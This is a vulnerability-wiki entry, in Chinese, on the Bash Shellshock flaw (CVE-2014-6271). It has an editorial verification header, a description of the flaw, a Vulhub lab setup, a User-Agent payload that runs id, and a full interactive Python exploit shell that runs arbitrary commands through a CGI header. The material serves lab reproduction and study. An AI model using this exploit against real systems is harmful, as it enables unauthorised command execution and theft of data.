


# Shellshock-破壳漏洞-CVE-2014-6271

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：GNU Bash Shellshock
- 文献类型：CGI场景复现和交互脚本
- 版本、权限及部署边界：环境变量可控且CGI启动易受影响Bash；实验Bash4.3与safe对照，精确patchlevel未给
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 主产品Bash，CGI只是入口，不是所有使用Bash的系统远程可利用
2. Vulhub仅写up -d没有仓库/环境子目录和固定版本；最新版safe对照不可重现
3. Python脚本依赖future包但无依赖/解释器说明；源码外链出处缺失，交互执行需标实验用途
4. 无影响上界/修复版本，需区分Shellshock多个后续CVE；截图对照未查看
5. 正文风险概述和HTTP头示例清楚可保留

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<http://your-ip:8080/victim.cgi`和`http://your-ip:8080/safe.cgi`。其中safe.cgi是最新版bash生成的页面，victim.cgi是bash4.3生成的页面>
- 原文参考链接（未重新核验）：<https://github.com/Threekiii/Vulnerability-Wiki>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。核心的原因在于在输入的过滤中没有严格限制边界，没有做合法化的参数判断。

此前已验证Red Hat、 CentOS 、Ubuntu 、Fedora 、Amazon Linux 、OS X 10.10均拥有存在CVE-2014-6271漏洞的bash版本，以bash在各主流操作系统的广泛应用，此漏洞的影响范围包括但不限于大多数应用bash的Unix、Linux、Mac OS X，针对这些操作系统管理下的数据存在高危威胁。

## 环境搭建

Vulhub执行如下命令：

```
docker-compose up -d
```

服务启动后，有两个页面`http://your-ip:8080/victim.cgi`和`http://your-ip:8080/safe.cgi`。其中safe.cgi是最新版bash生成的页面，victim.cgi是bash4.3生成的页面。

## 漏洞复现

将payload附在User-Agent中访问victim.cgi：

```
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
```

命令成功被执行：




同样的数据包访问safe.cgi，不受影响：




## 漏洞EXP

```python
#!/usr/bin/python

# Successful Output:
# # python shell_shocker.py <VulnURL>
# [+] Attempting Shell_Shock - Make sure to type full path
# ~$ /bin/ls /
# bin
# boot
# dev
# etc
# ..
# ~$ /bin/cat /etc/passwd

from __future__ import print_function
from future import standard_library
standard_library.install_aliases()
from builtins import input
import sys, urllib.request, urllib.error, urllib.parse

if len(sys.argv) != 2:
        print("Usage: shell_shocker <URL>")
        sys.exit(0)

URL=sys.argv[1]
print("[+] Attempting Shell_Shock - Make sure to type full path")

while True:
        command=input("~$ ")
        opener=urllib.request.build_opener()
        opener.addheaders=[('User-agent', '() { foo;}; echo Content-Type: text/plain ; echo ; '+command)]
        try:
                response=opener.open(URL)
                for line in response.readlines():
                        print(line.strip())
        except Exception as e: print(e)

```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
